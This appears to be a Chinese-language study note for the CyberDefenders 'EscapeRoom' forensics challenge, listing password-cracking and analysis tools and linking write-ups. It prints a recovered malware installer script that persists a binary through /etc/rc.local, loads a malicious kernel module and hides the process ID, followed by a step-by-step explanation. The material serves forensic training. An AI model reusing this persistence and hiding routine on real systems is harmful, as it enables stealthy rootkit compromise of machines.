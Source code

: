 # 知识点
[Hydra](https://zhuanlan.zhihu.com/p/397779150) 常用于爆破ssh密码<br />[John the Ripper](https://xz.aliyun.com/t/3958)   密码破解器
```shell
#!/bin/bash
mv 1 /var/mail/mail
chmod +x /var/mail/mail
echo -e "/var/mail/mail &\nsleep 1\npidof mail > /proc/dmesg\nexit 0" > /etc/rc.local
nohup /var/mail/mail > /dev/null 2>&1&
mv 2 /lib/modules/`uname -r`/sysmod.ko
depmod -a
echo "sysmod" >> /etc/modules
modprobe sysmod
sleep 1
pidof mail > /proc/dmesg
rm 3

"""
So payload 3 is a bash script that gives us some insights into the other two payloads. Line by line, let’s follow the script:

1、Rename payload 1 to /var/mail/mail
2、Change P1’s (/var/mail/mail) permissions to executable
3、Echo the following string of commands to /etc/rc.local:
	1、Launch Payload 1
	2、Sleep 1 second
	3、Send the PID of mail (malware) to /proc/dmesg (This sends the PID to the kernel)
	4、exit shell
4、Use nohup to run Payload 1 (/var/mail/mail) in the background, redirect standard output to /dev/null, redirect standard error to standard output (this means silence errors)
5、Rename Payload 2 to sysmod.ko and move it to /lib/modules/[insert_kernel_version]/. Kernel version is inserted inline using “uname -r”
6、Generate dependency lists for all kernel modules using depmod
7、Add sysmod to the list of modules at /etc/modules
8、Add malicious module sysmod to the kernel (Payload 2)
9、Sleep for a second
10、Hide the PID of running Payload 1 (mail)
11、Delete this file
"""
```
# 工具

- [Wireshark](https://www.wireshark.org/)
- [NetworkMiner](https://www.netresec.com/?page=networkminer)
- [BrimSecurity](https://www.brimdata.io/download/)
- [UPX](https://upx.github.io/)
- [IDA](https://www.hex-rays.com/ida-pro/ida-disassembler/)
# 思路
[CyberDefenders: EscapeRoom](https://forensicskween.com/ctf/cyberdefenders/escaperoom/)<br />[CyberDefenders Writeup EscapeRoom](https://4n6nk8s.tech/2022/09/07/CyberDefenders/EscapeRoom/)<br />[EscapeRoom (CyberDefenders) – Pending Investigations](https://ihack.blue/archives/219)

